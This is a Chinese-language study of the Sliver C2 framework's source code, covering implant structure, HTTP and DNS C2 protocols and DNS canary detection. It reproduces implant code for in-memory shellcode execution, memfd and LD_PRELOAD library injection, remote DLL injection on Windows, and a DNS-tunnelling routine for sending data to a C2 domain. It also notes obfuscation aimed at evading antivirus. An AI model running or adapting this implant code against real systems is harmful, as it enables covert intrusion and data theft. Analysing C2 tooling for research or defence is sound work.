# sliver c2代码的学习

> Sliver 是一个基于Go的开源、跨平台的红队平台，可供各种规模的组织用于执行安全测试。 Sliver 的木马 支持 C2 over Mutual-TLS、HTTP(S) 和 DNS等协议。 implant可以时时编译生成，并会使用证书进行加密。
> 
> 基于Go语言的特性，服务器和客户端以及implant都支持 MacOS、Windows 和 Linux。

Github地址:https://github.com/BishopFox/sliver tag:v1.4.22

go语言越来越流行，并且作为红队使用语言有很多优势。它十分简单，代码可以轻松编译为native代码到各类平台，跨平台开发非常容易。像py2exe和jar2exe，因为没有流行的软件，它们生成的工具很容易被杀毒针对，而golang编写的软件像docker等，让杀软无法直接查杀golang语言本身的特征，这更方便红队开发进行隐藏自己。

重要的是，已经有很多开源的，成熟的用于红队的代码，sliver就是其中之一。所以学习下sliver的代码，主要积累一些相关的go代码，学习基于go的C2是怎么做的，方便之后自己写C2。

本文将主要总结Sliver c2的功能原理、代码结构、以及对抗方面的内容。

## 使用&简介

sliver运行需要配置一些环境变量，如go、gcc，方便生成木马时候进行编译，在kali下运行十分简单，因为kali已经内置了这些变量，只需要在下载页面https://github.com/BishopFox/sliver/releases 下载最新的`sliver-server_linux`，解压后直接运行即可。



输入`http -l 8888`用于开启一个基于http 8888端口的C2



输入`generate --http http://192.168.126.132:8888` 生成一个基于http的c2木马。



它生成的时候默认会使用`garble`对implant源码进行一遍混淆，能够防止被分析。

> sliver之前的版本使用的gobfuscate，在源码层面修改变量以及代码结构，速度比较慢，相比之下garble是对中间编译环节进行混淆结构，速度比较快也能混淆大部分符号等信息。

生成完毕后的exe被点击后



使用`use [id]`选择要控制的机器即可对它进行操控了。

### 代码简介

sliver的代码结构中有三大组件

  * implant

    * 植入物，有点拗口，可以理解为“木马”
  * server

    * teamserver，也可以进行交互操作
  * client

    * 多用户时可以使用的交互客户端


这三个组件即构成了Sliver的C2服务，server也实现了client的功能，client就是使用rpc调用server的功能，所以大部分情况下看server和implant就行了。

官方Readme上的一些**Features** 和它的实现方式。

  * Dynamic code generation
    * 动态代码生成，就是动态生成go源码然后编译
  * Compile-time obfuscation
    * 使用go-obf混淆生成的go代码
  * Multiplayer-mode
    * 支持多用户模式
  * Staged and Stageless payloads

    * Staged 主要是调用msf来生成的payload
  * Procedurally generated C2-C2#under-the-hood) over HTTP(S)

    * http混淆协议
      * **Base64** Base64 with a custom alphabet so that it’s not interoperable with standard Base64
      * **Hex** Standard hexadecimal encoding with ASCII characters
      * **Gzip** Standard gzip
      * **English** Encodes arbitrary data as English ASCII text
      * **PNG** Encodes arbitrary data into valid PNG image files
      * **Gzip+English** A combination of the Gzip and English encoders
      * **Base64+Gzip** A combination of the Base64 and Gzip encoders
  * [DNS canary] blue team detection
    * 使用DNS诱饵域名 发现蓝队
  * Secure C2 over mTLS, WireGuard, HTTP(S), and DNS
    * C2通信支持的协议 mTLS, WireGuard, HTTP(S), DNS
  * Fully scriptable using JavaScript/TypeScript or Python
    * 支持使用JavaScript和Python编写脚本
  * Local and remote process injection
    * 本地和远程进程注入
  * Windows process migration
  * Windows user token manipulation
  * Anti-anti-anti-forensics
    * 对抗
  * Let’s Encrypt integration
    * Let’s Encrypt集成
  * In-memory .NET assembly execution


## Implant

implant是sliver c2的“木马”部分，也是整个c2的核心部分。sliver 的implant是支持跨平台的，三个平台功能的基本功能基本上都有，但每个平台的支持程度还是稍有差异。但是它对windows平台的功能显然更多一点。

sliver的提供了三种选项编译implant，编译成shellcode、编译成第三方库，和编译成exe。对于windows，还支持生成`windows service`、`windows regsvr32/ PowerSploit`类型的文件，后两种格式，其实就是一种含有特殊导出表的DLL。

**编译成第三方库**

能分别生成`.dll`、`.dylib`、`.so`文件，主要依赖cgo，要调用c语言编译器。所以想在server上多端生成，要下载各个平台的交叉编译器。

主要就是`sliver.c`实现的。
```c 
#include "sliver.h"

#ifdef __WIN32

DWORD WINAPI Enjoy()
{
    RunSliver();
    return 0;
}

BOOL WINAPI DllMain(
    HINSTANCE _hinstDLL, // handle to DLL module
    DWORD _fdwReason,    // reason for calling function
    LPVOID _lpReserved)  // reserved
{
    switch (_fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // Initialize once for each new process.
        // Return FALSE to fail DLL load.
    {
        // {{if .Config.IsSharedLib}}
        HANDLE hThread = CreateThread(NULL, 0, Enjoy, NULL, 0, NULL);
        // CreateThread() because otherwise DllMain() is highly likely to deadlock.
        // {{end}}
    }
    break;
    case DLL_PROCESS_DETACH:
        // Perform any necessary cleanup.
        break;
    case DLL_THREAD_DETACH:
        // Do thread-specific cleanup.
        break;
    case DLL_THREAD_ATTACH:
        // Do thread-specific initialization.
        break;
    }
    return TRUE; // Successful.
}
#elif __linux__
#include <stdlib.h>

void RunSliver();

static void init(int argc, char **argv, char **envp)
{
    unsetenv("LD_PRELOAD");
    unsetenv("LD_PARAMS");
    RunSliver();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
#include <stdlib.h>
void RunSliver();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
    unsetenv("DYLD_INSERT_LIBRARIES");
    unsetenv("LD_PARAMS");
    RunSliver();
}

#endif

```

windows在dllmain里面启动一个线程执行go函数，mac和linux直接再`init`上执行go函数。

**编译成shellcode**

只能在windows下使用，在`server\generate\binaries.go`

编译shellcode，首先编译成dll，然后会使用go-donut `github.com/binject/go-donut/donut` 进行转换为shellcode。

`donut`可以将任意的exe、dll、.net等等程序转换为shellcode，go-donut 是donut 的go实现，关于donut ，模仿cs开局一个shellcode的实现.md 有讲述相关原理。

### 功能

在大体看了implant代码后，我画了一张思维导图用来描述sliver c2 implant所具有的功能和技术。


## 功能详情

### sideload

主要用于加载并执行库文件

#### Darwin

在本进程执行shellcode
```go 
func LocalTask(data []byte, rwxPages bool) error {
    dataAddr := uintptr(unsafe.Pointer(&data[0]))
    page := getPage(dataAddr)
    syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
    dataPtr := unsafe.Pointer(&data)
    funcPtr := *(*func())(unsafe.Pointer(&dataPtr))
    runtime.LockOSThread()
    defer runtime.UnlockOSThread()
    go func(fPtr func()) {
        fPtr()
    }(funcPtr)
    return nil
}

```

**sideload** 这个会写出文件，将库文件写到tmp目录，指定环境变量`DYLD_INSERT_LIBRARIES`为文件路径
```go 
// Sideload - Side load a library and return its output
func Sideload(procName string, data []byte, args string, kill bool) (string, error) {
    var (
        stdOut bytes.Buffer
        stdErr bytes.Buffer
        wg     sync.WaitGroup
    )
    fdPath := fmt.Sprintf("/tmp/.%s", randomString(10))
    err := ioutil.WriteFile(fdPath, data, 0755)
    if err != nil {
        return "", err
    }
    env := os.Environ()
    newEnv := []string{
        fmt.Sprintf("LD_PARAMS=%s", args),
        fmt.Sprintf("DYLD_INSERT_LIBRARIES=%s", fdPath),
    }
    env = append(env, newEnv...)
    cmd := exec.Command(procName)
    cmd.Env = env
    cmd.Stdout = &stdOut
    cmd.Stderr = &stdErr
    //{{if .Config.Debug}}
    log.Printf("Starting %s\n", cmd.String())
    //{{end}}
    wg.Add(1)
    go startAndWait(cmd, &wg)
    // Wait for process to terminate
    wg.Wait()
    // Cleanup
    os.Remove(fdPath)

    if len(stdErr.Bytes()) > 0 {
        return "", fmt.Errorf(stdErr.String())
    }
    //{{if .Config.Debug}}
    log.Printf("Done, stdout: %s\n", stdOut.String())
    log.Printf("Done, stderr: %s\n", stdErr.String())
    //{{end}}
    return stdOut.String(), nil
}

```

#### linux

无文件落地、内存执行.so，原理是使用`memfd_create`，允许我们在内存中创建一个文件，但是它在内存中的存储并不会被映射到文件系统中,执行程序时候设置环境变量`LD_PRELOAD`，预加载so文件
```go 
// Sideload - Side load a library and return its output
func Sideload(procName string, data []byte, args string, kill bool) (string, error) {
    var (
        nrMemfdCreate int
        stdOut        bytes.Buffer
        stdErr        bytes.Buffer
        wg            sync.WaitGroup
    )
    memfdName := randomString(8)
    memfd, err := syscall.BytePtrFromString(memfdName)
    if err != nil {
        //{{if .Config.Debug}}
        log.Printf("Error during conversion: %s\n", err)
        //{{end}}
        return "", err
    }
    if runtime.GOARCH == "386" {
        nrMemfdCreate = 356
    } else {
        nrMemfdCreate = 319
    }
    fd, _, _ := syscall.Syscall(uintptr(nrMemfdCreate), uintptr(unsafe.Pointer(memfd)), 1, 0)
    pid := os.Getpid()
    fdPath := fmt.Sprintf("/proc/%d/fd/%d", pid, fd)
    err = ioutil.WriteFile(fdPath, data, 0755)
    if err != nil {
        //{{if .Config.Debug}}
        log.Printf("Error writing file to memfd: %s\n", err)
        //{{end}}
        return "", err
    }
    //{{if .Config.Debug}}
    log.Printf("Data written in %s\n", fdPath)
    //{{end}}
    env := os.Environ()
    newEnv := []string{
        fmt.Sprintf("LD_PARAMS=%s", args),
        fmt.Sprintf("LD_PRELOAD=%s", fdPath),
    }
    env = append(env, newEnv...)
    cmd := exec.Command(procName)
    cmd.Env = env
    cmd.Stdout = &stdOut
    cmd.Stderr = &stdErr
    //{{if .Config.Debug}}
    log.Printf("Starging %s\n", cmd.String())
    //{{end}}
    wg.Add(1)
    go startAndWait(cmd, &wg)
    // Wait for process to terminate
    wg.Wait()
    if len(stdErr.Bytes()) > 0 {
        return "", fmt.Errorf(stdErr.String())
    }
    //{{if .Config.Debug}}
    log.Printf("Done, stdout: %s\n", stdOut.String())
    log.Printf("Done, stderr: %s\n", stdErr.String())
    //{{end}}
    return stdOut.String(), nil
}

```

#### Windows

  1. 使用`DuplicateHandle`,将句柄从一个进程复制到另一个进程
  2. 在目标进程创建内存并使用创建远程线程执行dll


```go 
func SpawnDll(procName string, data []byte, offset uint32, args string, kill bool) (string, error) {
    var lpTargetHandle windows.Handle
    err := refresh()
    if err != nil {
        return "", err
    }
    var stdoutBuff bytes.Buffer
    var stderrBuff bytes.Buffer
    // 1 - Start process
    cmd, err := startProcess(procName, &stdoutBuff, &stderrBuff, true)
    if err != nil {
        return "", err
    }
    pid := cmd.Process.Pid
    // {{if .Config.Debug}}
    log.Printf("[*] %s started, pid = %d\n", procName, pid)
    // {{end}}
    handle, err := windows.OpenProcess(syscalls.PROCESS_DUP_HANDLE, true, uint32(pid))
    if err != nil {
        return "", err
    }
    currentProcHandle, err := windows.GetCurrentProcess()
    if err != nil {
        // {{if .Config.Debug}}
        log.Println("GetCurrentProcess failed")
        // {{end}}
        return "", err
    }
    err = windows.DuplicateHandle(handle, currentProcHandle, currentProcHandle, &lpTargetHandle, 0, false, syscalls.DUPLICATE_SAME_ACCESS)
    if err != nil {
        // {{if .Config.Debug}}
        log.Println("DuplicateHandle failed")
        // {{end}}
        return "", err
    }
    defer windows.CloseHandle(handle)
    defer windows.CloseHandle(lpTargetHandle)
    dataAddr, err := allocAndWrite(data, lpTargetHandle, uint32(len(data)))
    argAddr := uintptr(0)
    if len(args) > 0 {
        //{{if .Config.Debug}}
        log.Printf("Args: %s\n", args)
        //{{end}}
        argsArray := []byte(args)
        argAddr, err = allocAndWrite(argsArray, lpTargetHandle, uint32(len(argsArray)))
        if err != nil {
            return "", err
        }
    }
    //{{if .Config.Debug}}
    log.Printf("[*] Args addr: 0x%08x\n", argAddr)
    //{{end}}
    startAddr := uintptr(dataAddr) + uintptr(offset)
    threadHandle, err := protectAndExec(lpTargetHandle, dataAddr, startAddr, argAddr, uint32(len(data)))
    if err != nil {
        return "", err
    }
    // {{if .Config.Debug}}
    log.Printf("[*] RemoteThread started. Waiting for execution to finish.\n")
    // {{end}}

    if kill {
        err = waitForCompletion(threadHandle)
        if err != nil {
            return "", err
        }
        // {{if .Config.Debug}}
        log.Printf("[*] Thread completed execution, attempting to kill remote process\n")
        // {{end}}
        cmd.Process.Kill()
        return stdoutBuff.String() + stderrBuff.String(), nil
    }
    return "", nil
}

```

### netstack

### proxy

### shell

### 注入技术

### 系统代理

## 通信流程

implant支持`mtls`、`WireGuard`、`http/https`、`dns`、`namedpipe`、`tcp`等协议的上线，`namedpipe`、`tcp`用于内网，加密程度不高，主要看看其他的。

### HTTP/HTTPS

**implant实现**

implant在初始化时，会首先请求服务器获得一个公钥，再生成一个随机的AESKEY，用公钥加密后发送到服务器，服务器确认后返回一个sessionid表示注册，后续implant只需要通过发送sessionid到服务器，服务器即可根据sessionid找到对应的aeskey解密数据。

sliver的implant、client、server，所有通信的数据都是基于Go的struct，再经过`proto3`编码为字节发送。关于`proto3`，后面有介绍。

请求

  * 随机编码器，通过随机数每次请求都会使用随机的编码器,在原aeskey的基础再次进行一次编码
    * uri的参数`_`用来标记编码器的数字
  * 通过cookie 标记sessionid
    * 用`PHPSESSID`来传递sessionid


implant在初始化完成获得sessionID后，接着会启动两个GoRoutine(可以粗糙的理解为两个线程)，一个用于发送，一个用于接收，它们都是监控一个变量，当一个变量获得值之后立马进行相应的操作（发送/接收）。

如果是其他语言实现类似操作的话可能要实现一个内存安全的队列，而在Go里面可以用自带的语法实现类似操作,既简单也明了。
```go 
go func() {
    defer connection.Cleanup()
    for envelope := range send {
        data, _ := proto.Marshal(envelope)
        log.Printf("[http] send envelope ...")
        go client.Send(data)
    }
}()

```

关于implant实现http/https协议具体细节，画了一张脑图。



**HTTP/HTTPS server端一些有意思的点**

  * 伪时时回显
    * cobalt strike有sleep的概念，是implant每次回连server的时间，因为这个概念，每次执行命令都会等待一段事件才能看到结果。
    * sliver的http/https协议上线没有sleep的概念，每次发送完命令它立马就能返回结果。
    * 原理是server接收到implant的请求后，如果当前没有任务，会卡住implant的请求(最长一分钟)，直至有任务出现。implant在timeout后也会再次请求，所以看到的效果就是发送的命令立马就能得到回显。
  * 重放检测
    * 防止蓝队对数据进行重放，implant的编码和加密多种多样，还有一定的随机值，理论上不可能会有内容一样包再次发送，sliver server会将每次的数据sha1编码的方式记录下来，如果蓝队对数据进行重放攻击，则会返回错误页面。


### DNS

dns协议虽然隐蔽，但它的限制较多，实现起来会有诸多束缚。

根据https://zh.wikipedia.org/wiki/%E5%9F%9F%E5%90%8D%E7%B3%BB%E7%BB%9F dns域名限制为253字符

  * 
  * 对每一级域名长度的限制是63个字符
  * 一个DNS TXT 记录字符串最多可包含255 个字符


知道了以上限制就可以设计自己的DNS上线协议了。

sliver设计的协议是最终发送DNS的数据都会经过base32编码（会处理掉=），使用了自己的编码表
```go 
dnsCharSet = []rune("abcdefghijklmnopqrstuvwxyz0123456789_")

```

sliver设计的域名发送格式为
``` 
subdata.seq.nonce.sessionid.msgType.parentdomain

```

  * subdata：表示发送的数据，最多3*63=189字节,subdata可能会有多个子域
  * seq：表示这是数据的第几个
  * nonce：一个10位字节的随机数,以防解析器忽略 TTL，以及后面防重放攻击的避免手段
  * sessionid: sessionid标记当前implant
  * msgType：表示执行的命令类型
  * parentdomain: 自定义的域名


计算发送次数

  * size := int(math.Ceil(float64(len(encoded)) / float64(dnsSendDomainStep)))
  * dnsSendDomainStep = 189 #每一级域名长度的限制是63个字符,sliver取3个子域用于发送数据，最大可发送 63 * 3 = 189字节


但是最终数据都会经过Base 32 编码，所以 (n _8 + 4) /5 = 63,n=39，意味着每次请求最终可发送39\_ 3 =117 个字节

`subdata`、`seq`、`nonce`由发送函数自动生成组装，sessionid、msgType、parentdomain 由用户控制。我将它DNS发送函数抽取了出来，可以自己模拟DNS发送的过程。
```go 
package main

import (
    "bytes"
    "encoding/base32"
    "encoding/binary"
    "fmt"
    "log"
    "math"
    insecureRand "math/rand"
    "strings"
)

const (
    sessionIDSize = 16

    dnsSendDomainSeg  = 63
    dnsSendDomainStep = 189 // 63 * 3

    domainKeyMsg  = "_domainkey"
    blockReqMsg   = "b"
    clearBlockMsg = "cb"

    sessionInitMsg     = "si"
    sessionPollingMsg  = "sp"
    sessionEnvelopeMsg = "se"

    nonceStdSize = 6

    blockIDSize = 6

    maxBlocksPerTXT = 200 // How many blocks to put into a TXT resp at a time
)

var dnsCharSet = []rune("abcdefghijklmnopqrstuvwxyz0123456789_")

var base32Alphabet = "ab1c2d3e4f5g6h7j8k9m0npqrtuvwxyz"
var sliverBase32 = base32.NewEncoding(base32Alphabet)

func dnsEncodeToString(input []byte) string {
    encoded := sliverBase32.EncodeToString(input)
    // {{if .Config.Debug}}
    log.Printf("[base32] %#v", encoded)
    // {{end}}
    return strings.TrimRight(encoded, "=")
}

// dnsNonce - Generate a nonce of a given size in case the resolver ignores the TTL
func dnsNonce(size int) string {
    nonce := []rune{}
    for i := 0; i < size; i++ {
        index := insecureRand.Intn(len(dnsCharSet))
        nonce = append(nonce, dnsCharSet[index])
    }
    return string(nonce)
}
func dnsDomainSeq(seq int) []byte {
    buf := new(bytes.Buffer)
    binary.Write(buf, binary.LittleEndian, uint32(seq))
    return buf.Bytes()
}

// Send raw bytes of an arbitrary length to the server
func dnsSend(parentDomain string, msgType string, sessionID string, data []byte) {

    encoded := dnsEncodeToString(data)
    size := int(math.Ceil(float64(len(encoded)) / float64(dnsSendDomainStep)))
    // {{if .Config.Debug}}
    log.Printf("Encoded message length is: %d (size = %d)", len(encoded), size)
    // {{end}}

    nonce := dnsNonce(10) // Larger nonce for this use case

    // DNS domains are limited to 254 characters including '.' so that means
    // Base 32 encoding, so (n*8 + 4) / 5 = 63 means we can encode 39 bytes
    // So we have 63 * 3 = 189 (+ 3x '.') + metadata
    // So we can send up to (3 * 39) 117 bytes encoded as 3x 63 character subdomains
    // We have a 4 byte uint32 seqence number, max msg size (2**32) * 117 = 502511173632
    //
    // Format: (subdata...).(seq).(nonce).(session id).(_)(msgType).<parent domain>
    //                [63].[63].[63].[4].[20].[12].[3].
    //                    ... ~235 chars ...
    //                Max parent domain: ~20 chars
    //
    for index := 0; index < size; index++ {
        // {{if .Config.Debug}}
        log.Printf("Sending domain #%d of %d", index+1, size)
        // {{end}}
        start := index * dnsSendDomainStep
        stop := start + dnsSendDomainStep
        if len(encoded) <= stop {
            stop = len(encoded)
        }
        // {{if .Config.Debug}}
        log.Printf("Send data[%d:%d] %d bytes", start, stop, len(encoded[start:stop]))
        // {{end}}
        data := encoded[start:stop] // Total data we're about to send

        subdomains := int(math.Ceil(float64(len(data)) / dnsSendDomainSeg))
        // {{if .Config.Debug}}
        log.Printf("Subdata subdomains: %d", subdomains)
        // {{end}}

        subdata := []string{} // Break up into at most 3 subdomains (189)
        for dataIndex := 0; dataIndex < subdomains; dataIndex++ {
            dataStart := dataIndex * dnsSendDomainSeg
            dataStop := dataStart + dnsSendDomainSeg
            if len(data) < dataStop {
                dataStop = len(data)
            }
            // {{if .Config.Debug}}
            log.Printf("Subdata #%d [%d:%d]: %#v", dataIndex, dataStart, dataStop, data[dataStart:dataStop])
            // {{end}}
            subdata = append(subdata, data[dataStart:dataStop])
        }
        // {{if .Config.Debug}}
        log.Printf("Encoded subdata: %#v", subdata)
        // {{end}}

        subdomain := strings.Join(subdata, ".")
        seq := dnsEncodeToString(dnsDomainSeq(index))
        domain := subdomain + fmt.Sprintf(".%s.%s.%s.%s.%s", seq, nonce, sessionID, msgType, parentDomain)
        log.Println("dnsLookup", domain)
        //_, err := dnsLookup(domain)
        //if err != nil {
        //    return "", err
        //}
    }
    // A domain with "_" before the msgType means we're doing sending data
    domain := fmt.Sprintf("%s.%s.%s.%s", nonce, sessionID, "_"+msgType, parentDomain)
    log.Println("dnsLookup and recv", domain)
}

func main() {
    parentDomain := "360.cn"
    msgType := "si" //sessionInitMsg
    sessionID := "_"
    var data = []byte("texttexttexttexttexttexttexttexttexttexttexttext")
    dnsSend(parentDomain, msgType, sessionID, data)
}

```

DNS C2上线协议部分总结了一下脑图



**防止重放攻击**  


## DNS Canary发现

除了server端的重放检测，向implant内置一个诱饵dns，也是一个检查暴露的方法。如果有人访问这个地址，说明implant已经暴露了。

### dns canary域名生成

`server\generate\canaries.go`

会随机生成一个子域名，存储在数据库，存储的内容



server端启动dns服务后，会查看DNS的信息，如果是数据库中存在的canary dns，则会更新这个dns的信息(更新触发时间，触发次数，是否第一次触发)，然后向控制端广播。



最后向请求者返回一个随机IP。

## 编码协议

  * client 操作 teamserver,是通过grpc + mtls双向加密进行


具体协议的内容在源代码的`protobuf\README.md`

因为使用了grpc，它使用的协议是Google的`proto3`。

> Protocol Buffer (简称Protobuf) 是Google出品的性能优异、跨语言、跨平台的序列化库。

在`protobuf`目录下，一些协议的说明
``` 
Protobuf
==========
 *`commonpb` -`clientpb` 和 `sliverpb` 之间共享的通用消息。值得注意的是通用的“Request”和“Response”类型，它们在 gRPC 请求/响应中用作标头。
 *`clientpb` -这些消息 只从客户端发送到服务器。
 *`sliverpb` -这些消息可以从客户端发送到服务器或从服务器发送到植入物，反之亦然。并非此文件中定义的所有消息都会出现在客户端<->服务器通信中，有些是特定于植入<->服务器的。
 *`rpcpb` -gRPC 服务定义

```

查看client的协议源文件`clientpb`，就可以看到木马会发送哪些字段了
``` 
syntax = "proto3";
package clientpb;
option go_package = "github.com/bishopfox/sliver/protobuf/clientpb";

import "commonpb/common.proto";


// [ Version ] ----------------------------------------
message Version {
  int32 Major = 1;
  int32 Minor = 2;
  int32 Patch = 3;

  string Commit = 4;
  bool Dirty = 5;
  int64 CompiledAt = 6;

  string OS = 7;
  string Arch = 8;
}

// [ Core ] ----------------------------------------
message Session {
  uint32 ID = 1;
  string Name = 2;
  string Hostname = 3;
  string UUID = 4;
  string Username = 5;
  string UID = 6;
  string GID = 7;
  string OS = 8;
  string Arch = 9;
  string Transport = 10;
  string RemoteAddress = 11;
  int32 PID = 12;
  string Filename = 13; // Argv[0]
  string LastCheckin = 14;
  string ActiveC2 = 15;
  string Version = 16;
  bool Evasion = 17;
  bool IsDead = 18;
  uint32 ReconnectInterval = 19;
  string ProxyURL = 20;
}

message ImplantC2 {
  uint32 Priority = 1;
  string URL = 2;
  string Options = 3; // Protocol specific options
}

message ImplantConfig {
  string GOOS = 1;
  string GOARCH = 2;
  string Name = 3;
  string CACert = 4;
  string Cert = 5;
  string Key = 6;
  bool Debug = 7;
  bool Evasion = 31;
  bool ObfuscateSymbols = 30;

  uint32 ReconnectInterval = 8;
  uint32 MaxConnectionErrors = 9;

  // c2
